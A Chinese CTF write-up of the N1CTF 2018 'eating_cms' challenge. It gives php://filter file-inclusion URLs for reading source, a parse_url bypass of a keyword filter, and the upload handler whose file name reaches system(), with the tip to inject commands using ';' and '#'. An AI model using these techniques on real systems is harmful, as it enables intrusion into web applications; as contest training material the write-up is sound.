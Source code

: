 # \[N1CTF 2018]eating\_cms

## \[N1CTF 2018]eating\_cms

## 考点

* 文件包含配合伪协议读取文件
* PHP代码审计
* parse\_url解析漏洞
* 文件名处命令注入

## wp

F12看到注释的SIGN UP，network里面看到登录访问的login.php，返回头看到PHP5.5.9，robots.txt文件不存在

访问register.php，随便注册，然后再登录。可以看到请求

```
user.php?page=guest
user.php?page=info
```

用PHP伪协议进行文件包含`user.php?page=php://filter/read=convert.base64-encode/resource=user` ，主要文件有user.php，function.php，config.php，info.php，index.php，login.php，register.php

按照功能点看代码，先看注册，全局变量`$mysqli` 是`new mysqli` 生成的对象，Filter函数对传入的内容进行黑白名单检测，并且对字符串中的反斜杠和单双引号进行转义。注册是SQL是`insert into` albert\_users`(`username\_which\_you\_do\_not\_know`,`password\_which\_you\_do\_not\_know\_too`,`isadmin\_which\_you\_do\_not\_know\_too\_too`) VALUES ('$user','$pass','0')`

```php
function register($user, $pass)
{
    global $mysqli;
    $user = Filter($user);
    $pass = md5($pass);
    $sql = "insert into `albert_users`(`username_which_you_do_not_know`,`password_which_you_do_not_know_too`,`isadmin_which_you_do_not_know_too_too`) VALUES ('$user','$pass','0')";
    $res = sql_query($sql);
    return $mysqli->insert_id;
}
 $blacklist = "information|benchmark|order|limit|join|file|into|execute|column|extractvalue|floor|update|insert|delete|username|password";
 $whitelist = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'(),_*`-@=+><";
```

然后看登录，查询然后赋值给session，和注册差不多。登录的SQL是`select * from` albert\_users`where`username\_which\_you\_do\_not\_know`= '$user' and` password\_which\_you\_do\_not\_know\_too `= '$pass'`

然后看一下user.php?page=guest是什么，首先对用户进行判断

```php
if($_SESSION['isadmin'] === '1'){
    $oper_you_can_do = $OPERATE_admin;}else{  // array('userinfo','upload','search','manage');
    $oper_you_can_do = $OPERATE;}        // array('userinfo','upload','search');
```

然后info.php只有admin可以访问，不是admin只能访问guest.php。然后在filter\_directory()中对请求的URI进行限制，但是用了两个危险函数，parse\_url和parse\_str，前面一个有解析漏洞，后面一个有变量覆盖漏洞

```php
function filter_directory()
{
    $keywords = ["flag","manage","ffffllllaaaaggg"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);  // parse_url(user.php?page=guest)   array(2) { ["path"]=> string(9) "/user.php" ["query"]=> string(10) "page=guest" } 
    parse_str($uri['query'], $query);
//    var_dump($query);
//    die();
    foreach($keywords as $token)
    {
        foreach($query as $k => $v)
        {
            if (stristr($k, $token))
                hacker();
            if (stristr($v, $token))
                hacker();
        }
    }
}
```

那就访问它限制的文件源码，先用user.php?page=php://filter/read=convert.base64-encode/resource=flag试试，提示错误

利用parse\_url的解析漏洞，访问`//user.php?page=php://filter/read=convert.base64-encode/resource=ffffllllaaaaggg` （前面两个文件不存在）

```php
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}else {
    echo "you can find sth in m4aaannngggeee";
}
?>
```

再去看m4aaannngggeee

```php
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}
include "templates/upload.html";
?>
```

再访问templates/upload.html，去看upllloadddd.php

![](../../.gitbook/assets/9dmCcV8fRaqmX4XwsTBheprHksL-aRkallTUxCya9NU.png)

```php
<?php
$allowtype = array("gif","png","jpg");
$size = 10000000;
$path = "./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/";
$filename = $_FILES['file']['name'];
if(is_uploaded_file($_FILES['file']['tmp_name'])){
    if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
        die("error:can not move");
    }
}else{
    die("error:not an upload file！");
}
$newfile = $path.$filename;
echo "file upload success<br />";
echo $filename;
$picdata = system("cat ./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/".$filename." | base64 -w 0");
echo "<img src='data:image/png;base64,".$picdata."'></img>";
if($_FILES['file']['error']>0){
    unlink($newfile);
    die("Upload file error: ");
}
$ext = array_pop(explode(".",$_FILES['file']['name']));
if(!in_array($ext,$allowtype)){
    unlink($newfile);
}
?>
```

这个命令执行就很明显了

![](../../.gitbook/assets/EWA1uFGRLxvPgigbmKtbFJ\_\_CJRfJNhOmYKfH7dqrlI.png)

在templates/upload.html进行上传，然后抓包，请求地址改成/upllloadddd.php

![](../../.gitbook/assets/n\_unNerzJG5ie1ll1FHDksARp8VsXkYWVTHmIbI2l1c.png)

然后在文件名注入payload

![](../../.gitbook/assets/VeIXu5legttAwvJNEzgHL8BP\_x4syWbxXBTkFj75iyQ.png)

最后结果

![](../../.gitbook/assets/Z2vTozb4AFD8YJICxodcsHXNGvWtvpSRKuuATgsyIeA.png)

## 小结

1. 文件名处可以注入命令时，使用`;` 分割命令，使用`#` 注释
